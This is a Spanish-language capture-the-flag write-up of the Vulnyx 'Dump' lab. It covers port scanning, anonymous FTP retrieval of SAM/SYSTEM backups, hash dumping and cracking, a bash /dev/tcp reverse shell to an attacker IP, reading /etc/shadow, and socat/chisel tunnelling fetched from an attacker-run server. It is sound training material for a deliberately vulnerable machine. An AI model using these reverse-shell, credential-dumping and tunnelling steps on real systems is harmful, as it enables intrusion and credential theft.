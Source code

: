```yaml
---
title: Vulnyx - Dump
author: estx
date: 2024-04-27 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Information Leakage', 'Local Port Forwarding']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Dump/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Information Leakage, Local Port Forwarding**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.66	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```


a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.66 -oG ports

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
4200/tcp open  vrml-multi-use
MAC Address: 08:00:27:0F:5F:9B (Oracle VirtualBox virtual NIC)
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p21,80,4200 -sCV 192.168.100.66 -oN versions

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.100.66:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_http-title: Shell In A Box
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:0F:5F:9B (Oracle VirtualBox virtual NIC)
```

* En el servicio FTP existe un directorio .backup además de que la autenticación anónima está permitida

  ```bash
  ❯ ftp 192.168.100.66
  Name (192.168.100.66:estx): anonymous
  Password: [ENTER]
  230 Login successful.
  ftp> ls
  drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup
  ftp> cd .backup
  ftp> ls
  -rwxrwxrwx   1 root     root        24576 Feb 09 10:35 sam.bak
  -rwxrwxrwx   1 root     root      3264512 Feb 09 10:36 system.bak
  ftp>
  ```

* Nos descargamos los archivos que encontramos en este servicio

  ```bash
  ftp> get sam.bak
  ftp> get system.bak
  ```

> El archivo **`sam`** es una base de datos con los hashes de las cuentas locales en Windows y el archivo **`system`** contiene la 'bootkey' que es la clave con la que se encripta la **sam**.
{: .prompt-info }

c. Podemos desencriptar estos hashes con **impacket-secretsdump** con el fin de extraer los hashes (NTLM) y tratar de crackearlos.

```bash
❯ impacket-secretsdump -sam sam.bak -system system.bak LOCAL

[*] Target system bootKey: 0x042145cf7279c87791fa907cd6d9bccd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

* Guardamos todos lo hashes y los crackeamos con hashcat o john

  ```bash
  hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt

  dumper:7324322d85d3714068d67eccee442365:1dumper
  admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
  ```

d. El servicio del puerto **4200** es ShellInABox, este servicio permite ejecutar una bash en el navegador, para conectarnos a este servicio tenemos que indicar el protocolo **https**

![shell.png](/assets/images/Vulnyx/Easy/Dump/01-shell.png)


### Escalada de Privilegios 💹

a. Una vez que nos autenticamos con las credenciales `dumper:1dumper` nos enviamos una reverse shell para trabajar cómodamente

```bash
# Máquina Atancante
❯ nc -lvnp 4444
```

```bash
# SHELL IN A BOX
per@dump:~$ bash -c 'bash -i >& /dev/tcp/[IP Máquina Atacante]/4444 0>&1'
```

* Ahora realizamos un tratamiento de la TTY en la reverse shell

  ```bash
  dumper@dump:~$ script /dev/null -c bash
  script /dev/null -c bash
  dumper@dump:~$ ^Z
  [1]  + 7255 suspended  nc -lvnp 4444
  ❯ stty raw -echo;fg
  [1]  + 7255 continued  nc -lvnp 4444
                                      reset xterm

  dumper@dump:~$ export TERM=xterm-256color
  dumper@dump:~$ source /etc/skel/.bashrc 
  ```

b. Con [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240421-825f642d) buscamos formas de escalar privilegios, lo que veremos es que podemos leer el contenido del `/etc/shadow`, aquí veremos el hash del usuario root el cual crackeamos con hashcat

```bash
# Dump
dumper@dump:~$ cat /etc/shadow
root:$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:19762:0:99999:7:::
...
------------------------------------------------------------------------
# Máquina Host
❯ hashcat -a 0 hash /usr/share/wordlists/rockyou.txt
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

c. No podemos usar 'su' para transformarnos en **root**. Investigando más veremos que el servicio SSH se encuentra habilitado, pero, no se lo ve externamente. Usaremos **socat** o **chisel** para hacer un `Local Port Forwarding` con el fin de hacer accesible el puerto 22

* Usando [**socat**](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

  a. Descargamos socat en la Máquina Dump

  ```bash
  # Máquina Atacante
  ❯ ls
  socat  
  ❯ python -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)

  # Máquina Dump
  dumper@dump:/tmp$ wget -o- http://[IP Máquina Atancante]/socat
  ```

  b. Le damos permisos de ejecución a socat y hacemos el **Port Forwarding**

  ```bash
  dumper@dump:/tmp$ chmod +x ./socat
  dumper@dump:/tmp$ ./socat TCP-LISTEN:4444,reuseaddr,fork TCP:127.0.0.1:22
  ```

  > Con esto indicarmos que toda conexión entrante por el puerto 4444 se redirigirá al puerto 22 (SSH)
  {: .prompt-info }

  c. Ahora, nos podemos autenticar en el servicio SSH con las credenciales `root:shadow123`

  ```bash
  ❯ ssh root@192.168.100.66 -p 4444
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  root@192.168.100.66's password: 
  root@dump:~#
  ```

* Usando [**chisel**](https://github.com/jpillora/chisel/releases)

  a. Descargamos chisel en la Máquina Dump

  ```bash
  # Máquina Atacante
  ❯ ls
  chisel  
  ❯ python -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)

  # Máquina Dumper
  dumper@dump:/tmp$ wget -o- http://[IP Máquina Atancante]/chisel
  ```


  b. Primero, ejecutamos chisel en modo servidor en nuestra máquina atacante

  ```bash
  ❯ ./chisel server --reverse -p 4443
  2024/04/27 23:24:56 server: Reverse tunnelling enabled
  2024/04/27 23:24:56 server: Fingerprint 9xTeAG/cj+NT6JQBH0NOgx+P8LXbW6+vLOQoJ2bbpss=
  2024/04/27 23:24:56 server: Listening on http://0.0.0.0:4443
  ```

  b. Ahora, le damos permisos de ejecución a chisel y hacemos el **Port Forwarding** en Dump

  ```bash
  dumper@dump:/tmp$ ./chisel client [IP Máquina Atacante]:4443 R:[Puerto en nuestra máquina atacante]:127.0.0.1:22
  2024/04/27 23:27:20 client: Connecting to ws://192.168.100.55:4443
  ```

  > **`[IP Máquina Atacante]:4443`** Aquí nos conectamos al servidor levantado en nuestra máquina atacante. **`R:[Puerto en nuestra máquina atacante]:127.0.0.1:22`** con esto indicamos un puerto de nuestra máquina atacante el cual ocupará el servicio SSH de la máquina Dump
  {: .prompt-info }

  c. Ahora, nos podemos autenticar en el servicio SSH con las credenciales `root:shadow123`

  ```bash
  ❯ lsof -i:22
  COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
  chisel  11102 root    8u  IPv6  77037      0t0  TCP *:ssh (LISTEN)

  ❯ ssh root@127.0.0.1
  root@127.0.0.1's password: 
  root@dump:~#
  ```

